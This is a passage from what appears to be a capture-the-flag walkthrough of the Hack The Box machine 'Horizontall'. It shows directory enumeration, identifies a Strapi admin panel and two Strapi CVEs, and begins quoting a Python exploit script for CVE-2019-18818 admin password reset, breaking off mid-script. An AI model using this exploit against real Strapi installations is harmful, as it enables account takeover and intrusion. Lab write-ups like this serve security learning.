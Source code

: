 ```
──────────────────────────────────────────────────
200       16l      101w      854c http://api-prod.horizontall.htb/admin
403        1l        1w       60c http://api-prod.horizontall.htb/users
200        1l       21w      507c http://api-prod.horizontall.htb/reviews
[####################] - 41s    19964/19964   0s      found:3       errors:0      
[####################] - 41s    19964/19964   485/s   http://api-prod.horizontall.htb

```

`/users` returns 403 Forbidden, so not much I can do with that for now.

#### /admin

Visiting `/admin` presents a login form for [strapi](https://strapi.io/), which defines itself as “the leading open-source headless CMS. It’s 100% JavaScript, fully customizable and developer-first.”

![image-20210802131003331](https://0xdfimages.gitlab.io/img/image-20210802131003331.png)

## Shell as strapi

### Exploit Identification

Some Googling for “strapi exploit” leads to a few things of interest. I first found CVE-2019-19609, which is an authenticated RCE exploit, nicely explainted [here](https://bittherapy.net/post/strapi-framework-remote-code-execution/). That’ll be useful if I can get authenticated.

There’s also CVE-2019-18818, which is allows resetting the admin password for strapi. [This post](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/) has a Python exploit script. It also shows how to check the strapi version at `/admin/strapiVersion`:

```

oxdf@hacky$ curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}

```

Both of the vulnerabilities above exist in this version.

### Change Admin Password

First I’ll use CVE-2019-18818 to change the admin password using the script from the post above:

```

import requests    
import sys    
import json    
     
args=sys.argv    
     
if len(args) < 4:    
    print("Usage: {} <admin_email> <url> <new_password>".format(args[0]))    
    exit(-1)    
     
email = args[1]    
url = args[2]    
new_password =  args[3]    
     
s  =  requests.Session()    
     
version = json.loads(s.get("{}/admin/strapiVersion".format(url)).text)    
     
print("[*] Detected version(GET /admin/strapiVersion): {}".format(version["strapiVersion"]))    
     
#Request password reset    
```